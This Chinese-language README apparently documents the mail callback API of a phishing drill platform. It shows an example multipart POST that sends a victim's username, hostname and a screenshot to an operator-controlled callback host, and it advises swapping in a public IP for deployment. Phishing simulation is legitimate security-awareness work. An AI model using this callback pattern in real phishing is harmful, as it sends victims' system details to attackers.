



# 阿波罗钓鱼演练平台邮件回调接口使用说明

# 第一步：获取邮箱钓鱼任务ID

# 第二步：构造运行回调数据包
邮件回调接口 /api/mail_login?token=邮件任务ID&mail=上线邮箱 。接口遵循 multipart/form-data 规范，其中如果需要传递图片的情况下固定参数savepng，其余传递参数名和值任意。

例如下面的例子：

username、hostname为自定义参数名；savepng为固定参数名。

```plain
POST /api/mail_login?token=24aefe98-124d-4605-b26d-2d3e5562b287&mail=123456@qq.com HTTP/1.1
Host: 127.0.0.1:3333
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="username"

administrator
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="hostname"

FIREBAT-MINIPC
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="savepng"; filename="20260112.png"
Content-Type: image/png

[此处为图片二进制数据]
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

响应如下为回调成功：

```plain
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Date: Mon, 12 Jan 2026 01:56:08 GMT
Content-Length: 81

{"code":0,"data":{"created":false,"uuid":"dc02413d-e976-4123-bed3-71bb99be1df7"}}
```



❗注意：师傅们真实部署时，需把回调host改成你的公网IP，可以访问：http://公网ip:端口/status 接口，若返回ok说明平台已连通外网。




